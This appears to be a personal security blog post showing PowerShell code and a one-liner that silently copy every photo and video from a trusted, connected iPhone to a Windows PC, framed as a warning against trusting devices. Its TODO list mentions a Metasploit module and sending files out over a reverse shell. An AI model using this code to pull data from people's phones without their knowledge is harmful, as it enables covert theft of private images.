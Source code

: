 ```yaml
---
layout: post
title: "Do not trust this device"
date: 2020-08-05
---
```


<img src="/assets/images/trust.jpg" width="250px" class="center">

## Good evening neighboors

Plugging in your iPhone and trusting the device is almost always never a good idea.  
In this post I'd like to show you how a malicious program/user can extract your images and videos from your phone without your knowledge.

### tldr;
It's really insecure to allow the attached device access to your phone.  
Extracting images and videos from an iPhone isn't really hard.  
There are some technical difficulties but they are relatively simply be overcome.

### Tec stuff
Microsoft uses mtp (Media Transfer Protocol) to communicate with your phone. While the protocol in itself isn't ultra complex it's 
not natively supported by a wide range of script languages (Powershell included).  
Alas Powershell can use Windows classes which in turn have access to the underlying COMObjects.


### Checking if a phone is connected
Foremost we need to check if there's a phone connected and the user trusted the device (Happens all the time)  
I use this simple one liner to check if there's a phone connected.
```
$i=((new-object -com Shell.Application).NameSpace(17).self).GetFolder.items() | Where {$_.name -eq "Apple iPhone"};$p=$i.GetFolder.items();$p.GetFolder
```
You'll receive the following output  
```
Application  : System.__ComObject
Parent       : System.__ComObject
Name         : Internal Storage
Path         : ::{UUID}\\\?\usb#vid_05ac&pid_12a8&mi_00#6&21cec13f&0&0000#{UUID}
GetLink      :
GetFolder    : System.__ComObject
IsLink       : False
IsFolder     : True
IsFileSystem : False
IsBrowsable  : False
```
If there's no return value the user didn't trust the pc (Like he shouldn't have in the first place) and you're out of luck.

## The fun begins
Now for the heavy lifting we'll need to initialize the ComObject.
```
$shell = new-object -com Shell.Application
$shellItem = $shell.NameSpace(17).self
```
NameSpace 17 is just a fancy way to address the special folder "This PC".

<img src="/assets/images/namespace_17.png">


Now we can get access the phone directly over it's Internal Storage.
```
$phone = $shellItem.GetFolder.items() | where { $_.name -eq "Apple iPhone" }
$rootFolder = $phone.GetFolder.items() | where { $_.Name -eq "Internal Storage" }
```

There aren't many folders accessable over mtp. So we can use the default Digital Camera Images folder.
```
$subfolder = $rootFolder.GetFolder.items() | where { $_.Name -eq "DCIM" }
```

Now you can manually search for interesting folder names and extract anything that you're interested in.

_Look manually into it_
```
$subfolder.GetFolder.items() | select Name
```

If you found a folder that you're interested in you can traverse down and load the files in an array.
```
$appleFolder = $subfolder.GetFolder.items() | where { $_.Name -eq "102APPLE" }
$items = @($appleFolder.GetFolder.items() | where {$_.Name -match "IMG_*"})
```

We've only selected images here but it's possible to select videos as well.
The last thing we need to do is copy them somewhere to extract them.  
We can't use Copy-File or other methods due the incompatibility with ComObjects.  
Luckily there's a .Net copy function.

```
$dst = $shellItem.GetFolder.items() | where { $_.name -eq "Pictures" }
$dst.GetFolder.CopyHere($items[1]), 1024)
```
1024 tells the device to not show a user interface on error.  
Please note that this is quite unstable and in almost all cases I've lost connection after 3-4 successful transfers.

So I've ended up copying the files manually ($items[1...x]) instead of using a For loop.

If the connection drops, you'll need to reconnect the device like this. Which will only work with administrative rights though.
```
Get-PnpDevice | where {$_.Name -eq "Apple iPhone"} | Disable-PnpDevice | Enable-PnpDevice
```

Everything in a nice one liner:
```
$r=((new-object -com Shell.Application).NameSpace(17).self).GetFolder.items();$i=$r|where{$_.Name-eq"Apple iPhone"};$d=$i.GetFolder.items()|where{$_.name-eq"Pictures"};$f=$i.GetFolder.items()|where{$_.Name-eq"Internal Storage"};$rt=$f.GetFolder.items()|where{$_.Name-eq"DCIM"};$rt.GetFolder.items()|%{$_.GetFolder.items()|%{($r|where{$_.Path-like"*Pictures"}).GetFolder.CopyHere($_,1024)}}
```

This one liner copies everything from your DCIM folder to $env:USERPROFILE\Pictures.



### Conclusion
If you trust your device, you trust everything that has access to your computer.  
Your phone has no idea if the connection comes from you or another user/service.  
<br />
Never allow a device to access your phone and if you really need to, unplug your phone after the transfer.


#### TODO
- Write a metasploit module.
- Rewrite in an acceptable language (Rust?)
- Copy files to a network location (or over rev. shell?)
<br />
<br />
<br />


